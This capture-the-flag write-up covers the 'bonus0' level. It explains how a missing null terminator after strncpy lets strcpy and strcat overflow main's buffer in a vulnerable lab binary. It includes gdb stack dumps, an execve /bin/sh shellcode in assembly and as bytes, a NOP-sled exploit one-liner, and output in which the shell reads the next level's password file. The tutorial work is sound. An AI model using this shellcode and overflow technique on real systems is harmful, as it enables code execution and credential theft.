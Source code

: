 ## Don't forget, sentences end with a point and strings with a '\0' (bonus0)

With this [binary](source.c) we're back to good old C and classic buffer
overflows. There's three functions including _main_. The _main_ has a local
buffer of 54 bytes, and calls the function _pp_ on it. There we have two other
buffers each 20 bytes long. _pp_ will call the third function _p_ on both to
fill them with some user input. After that the two buffers are copied and
insecurely concatenated in the buffer provided by the _main_ function.

After some gdb analysis, we can see the state of the stack from _p_:

```shell
# print part of the stack from the end p's buffer
(gdb) x/56wx 0xbffffa88

0xbffffa88:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffffa98:     0x61616161      0x00616161      0x00000001      0x00000000
0xbffffaa8:     0xbffffb08     [0x0804854c]     0xbffffaec      0x080486a0
0xbffffab8:     0x00000000      0x00000001      0x00000000      0x00000000
0xbffffac8:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffffad8:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffffae8:     0x61616161      0x62626262      0x62626262      0x62626262
0xbffffaf8:     0x62626262      0x00626262      0xb7fd0ff4      0x00000000
0xbffffb08:     0xbffffb58     [0x080485b9]     0xbffffb26      0x080498d8
0xbffffb18:     0x00000001      0x0804835d      0xb7fd13e4      0x00080000
0xbffffb28:     0x080498d8      0x080485f1      0xffffffff      0xb7e5edc6
0xbffffb38:     0xb7fd0ff4      0xb7e5ee55      0xb7fed280      0x00000000
0xbffffb48:     0x080485d9      0xb7fd0ff4      0x080485d0      0x00000000
0xbffffb58:     0x00000000     [n0xb7e454d3]    0x00000001      0xbffffbf4
```

> The values between brackets are the return addresses of every function in the
> binary.

* 0xbffffa88 -> 0xbffffaa0 (24 bytes): end of _p_'s big read buffer (all "0x61")
* 0xbffffaa8 (4 bytes): 0xbffffb08 _pp_'s ebp
* 0xbffffaac (4 bytes): 0x0804854c _p_'s return address <_pp_+46>
* 0xbffffad8 -> 0xbffffaec (20 bytes): _pp_'s first buffer (all "0x61")
* 0xbffffaec -> 0xbffffb00 (20 bytes): _pp_'s second buffer (all "0x62")
* 0xbffffb08 (4 bytes): 0xbffffb58 _main_'s ebp
* 0xbffffb0c (4 bytes): 0x080485b9 _pp_'s return address <_main_+21>
* 0xbffffb26 -> 0xbffffb58 (50 bytes): _main_'s buffer (random data)
* 0xbffffb58 (4 bytes): 0x00000000 *\_\_libc\_start\_main*'s ebp ? (look that up)
* 0xbffffb5c (4 bytes): 0xb7e454d3 _main_'s return address <*\_\_libc\_start\_main*+243>

> To get this result we passed as a first input the result of this command:
> `python -c 'print "a" * 4095'`, and this one for the second input:
> `python -c 'print "b" * 19'` so that they would not overflow their buffers.

_p_'s address cannot be overwritten since the call to `read` is safe and that
`strncpy` targets _pp_'s buffers. But this where the "unsafety" starts. This
`strncpy` call is dangerous because even though it has an upper bound equal to
the length of the buffers it writes to (20), they will not be null-terminated
by the function if the input data is at least 20 bytes long. Also, since the
buffers are next to each other in memory this means that they will be treated as
one big string even if there are null bytes after the second buffer.

This problem is not just theoretical because these buffers ares used with an
`strcpy` and an `strcat` call. Basically the first buffer is going to be copied
into _main_'s buffer. Then the null byte is going to be replaced with a space,
because yolo, and the second buffer is going to be concatenated to it.

In the best case scenario, if the two input buffers are filled with precisely 19
bytes of data and one null-byte _main_'s buffer should contain 39 bytes of data
and one null-byte:

```shell
# run the binary
./bonus0
 - 
# first input (19 bytes)
aaaaaaaaaaaaaaaaaaa
 - 
# second input (19 bytes too)
bbbbbbbbbbbbbbbbbbb
# nice output
aaaaaaaaaaaaaaaaaaa bbbbbbbbbbbbbbbbbbb
```

Now just add one byte to the first input:

```shell
# run the binary
./bonus0
 - 
# first input (20 bytes)
aaaaaaaaaaaaaaaaaaaa
 - 
# second input (19 bytes)
bbbbbbbbbbbbbbbbbbb
# nice-ish output
aaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbb bbbbbbbbbbbbbbbbbbb
Segmentation fault (core dumped)
```

What just happened ? The 20 bytes in the first input made it so `strncpy` could
not add a terminating null byte. After the second input is given an `strcpy`
call supposedly copies the 20 bytes of data from the first buffer to _main_'s
buffer. But since it _directly_ followed by the second buffer in memory the call
really copies 39 bytes of data to the destination buffer. And it does not stop
there. Then it replaces the null byte by a space and appends the 19 bytes again
and adds an other null byte. In total this fills the 50 byte buffer with 60
bytes of data (including the null byte).

Basically this means that we can overwrite _main_'s return address. It fills it
with garbage values above, hence the sefault, but we can do something useful
with this. So we have to write 54 bytes of data before overwriting _main_'s
return address.

We could have done a ret2libc (see [level2](../level2)), but this is not
possible because we only overflow the buffer by 10 bytes and ret2libc requires
at least writing 12 bytes to be useful (to be able to pass arguments to the
called function). So what we need is a [shellcode](../shellcode) and as small as
possible. Like this [one](shellstorm_shellcode.asm) found on
[shellstorm](http://shell-storm.org/shellcode/). Although it did not work in our
case. This is because the registers and stack were already set to random values,
not to 0 as if the program just started on the shellcode. So after some
tinkering here is the final shellcode:

```nasm
section .text
global _start
_start:
xor     edx, edx    ; set edx to 0
push    edx         ; push it to the stack to end the command string
push    0x68732f2f  ; "//sh" end of the command string
push    0x6e69622f  ; "/bin" start of the command string
mov     ebx, esp    ; set ebx to the start of the command string
push    edx         ; push a NULL
push    ebx         ; push the command string's address
mov     ecx, esp    ; set ecx as a pointer to the command string's address (argv)
push    0xb         ; push 11 (execve interrupt number)
pop     eax         ; set eax to 11
int     0x80        ; call execve
```

> This could have been shorter because argv can actually be set to NULL. So we
> could have skipped building it since the string would have been enough.

This will execute execve with "/bin//sh" as parameter and open us a shell. Now
the exploit:

```shell
python -c 'print "\x90" * 1000 + "\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\x6a\x0b\x58\xcd\x80"'
python -c 'print "a" * 14 + "\xbf\xff\xee\x60"[::-1] + "a"'
cat
```

> If the exploit above does not work, it is because of the buffer address in the
> second input. The memory layout does work in mysterious ways. It is affected
> by a lot of factors like the arguments the program is given, the environment,
> and even, apparently, the machine the VM is running on. To fix this, simply
> call use the [ltrace](https://linux.die.net/man/1/ltrace) command to get the
> right address. This would be the address of the destination buffer for the
> first `strncpy` call minus 4100 or so. This should land us inside the buffer.

The shellcode is at the end of the first input. It will be stored inside _p_'s
read buffer. We put a lot of noops operation before it because we do not know
the precise location of the buffer, so we will set _main_'s return address to
the address we got from gdb plus 128 bytes or so. This works because the layout
differences are not really big between the gdb run process and the normal
version. The read buffer is large enough for that so let's use it. So when the
binary receives this input _main_'s return address is replaced with 0xbfffee60,
which is *somewhere* inside _p_'s buffer, the eip skips every noop instructions
to finally encounter and execute the shellcode.

```shell
# run the exploit script above
./exploit.bash | ./bonus0
 - 
 - 
aaaaaaaaaaaaaa`a aaaaaaaaaaaaaa`a
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
